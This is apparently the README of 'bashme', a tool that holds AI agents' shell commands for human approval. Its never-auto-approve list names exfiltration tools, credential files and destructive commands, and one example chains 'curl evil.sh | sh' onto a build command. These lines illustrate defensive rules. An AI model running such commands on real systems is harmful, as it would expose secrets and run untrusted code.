





# bashme

**An approval gate for what your AI agents want to run.**



An agent that can run shell commands can also run the wrong one. bashme sits between the agent and your
machine. The command is held, shown to you in plain words, and runs only after you say yes. Routine
commands can be allowed by a standing rule. Everything is written to an audit log.

**Slides:** [docs/slides.html](docs/slides.html) · **User guide:** [docs/USER-GUIDE.md](docs/USER-GUIDE.md) ·
**Pages:** <https://violinet-tech.github.io/bashme/>

> **Early release (0.1).** The gate, rules, audit log and device pairing are built and covered by 119 tests.
> The app runs from source with `npm run app`; there is no installer or auto-start yet, so nothing is gated
> unless the app is open. Phone approval works over your local network or through an outbound relay, but a
> full run on a real phone against the hosted relay has not been tested yet.

## What it looks like

| Requests | Rules |
|---|---|
|  |  |
| **Clients** | **Devices** |
|  |  |

## How it works

1. A program (an agent, a script, a build tool) asks bashme to run a command.
2. bashme checks the command against a fixed list of things that are **never** auto-approved.
3. If it is on that list, you get a dialog. If it is not, your **standing rules** may approve it. Otherwise
   you get a dialog.
4. Your answer, and the reason for it, goes in the **audit log**.

The order is the point. The never-list is checked first and its answer is final, so a broad rule you wrote
last month cannot approve `rm -rf` today.

### Never auto-approved

| Category | Examples |
|---|---|
| Destructive filesystem | `rm`, `del`, `Remove-Item`, `format`, `git reset --hard`, `git clean -fd` |
| Credential access | `.env`, `.ssh`, `id_rsa`, `.aws`, `.npmrc`, `*.pem`, environment dumps |
| Security posture | `netsh`, `bcdedit`, `reg`, `icacls`, `schtasks`, `Set-ExecutionPolicy`, Defender settings |
| Privileged elevation | `sudo`, `runas`, `-Verb RunAs` |
| Network exfiltration | `curl --data-binary @file`, `scp`, `nc`, download piped into a shell |
| Outside the workspace | any path outside the workspace root, or inside `C:\Windows`, `Program Files` |
| Unparseable | `$(...)`, backticks, `eval`, `iex`, `-EncodedCommand`, base64 decode, unbalanced quotes |

Each check is allowed to be over-eager. A false alarm costs one tap. A missed one is the reason bashme exists.

### Rules that cannot be too broad

- A rule names **one program** and an **exact command**. No wildcards.
- A rule **cannot match a chained command**: `npm run build` is not the same as
  `npm run build && curl evil.sh | sh`.
- Before you save a rule, bashme **replays it against your audit log** and lists what it would have let through.

## Quick start

You need Node 22 or newer.

```bash
git clone https://github.com/Violinet-tech/bashme.git
cd bashme
npm install
npm run app
```

Then, in the app:

1. Open **Clients** and add the program that will ask for approval. You get a token, shown once.
2. In the terminal where that program runs, set the token and ask:

```bash
set BASHME_TOKEN=<your token>        # Windows cmd
bashme ask -- npm run build
```

The exit code is the answer: `0` approved, `1` denied, `2` could not ask. Treat anything that is not `0` as
"do not run".

Full walkthrough, with the phone steps: [docs/USER-GUIDE.md](docs/USER-GUIDE.md).

## Approving from a phone

- **On your network:** the app serves a small approval page. Scan the QR code on **Devices** and compare the
  fingerprint on both screens. The phone makes its own key in the browser and the key never leaves it.
- **From anywhere:** both ends dial out to a relay you choose. Messages are encrypted, so the relay can pass
  them on or drop them but cannot read or forge one.

A reachable port only lets a device **ask**. Only a paired device's signature can **answer**.

## Safety design in short

- No inbound socket by default. The local door is a named pipe, and every caller needs an enrolled token.
- The caller's identity comes from its token, never from what the message claims.
- Turning bashme off never means "approve everything". It means every request falls back to a dialog.
- The audit log is append-only. It cannot block or change a decision.

## Layout

```
src/core/      the gate: classifier, rules, confirm tokens, store, channels. No Electron, no UI.
src/app/       the standalone Electron app, local pipe server, phone listener
bin/bashme.mjs the CLI a script calls
docs/          slides, user guide, screenshots
```

The core has no runtime dependencies, so it can be embedded in other apps. VIOLINET OS embeds it under
**System Guard → Approvals**.

## Tests

```bash
npm test
```

119 tests, no extra install. Needs Node 22+.

## License

MIT. See [LICENSE](LICENSE).
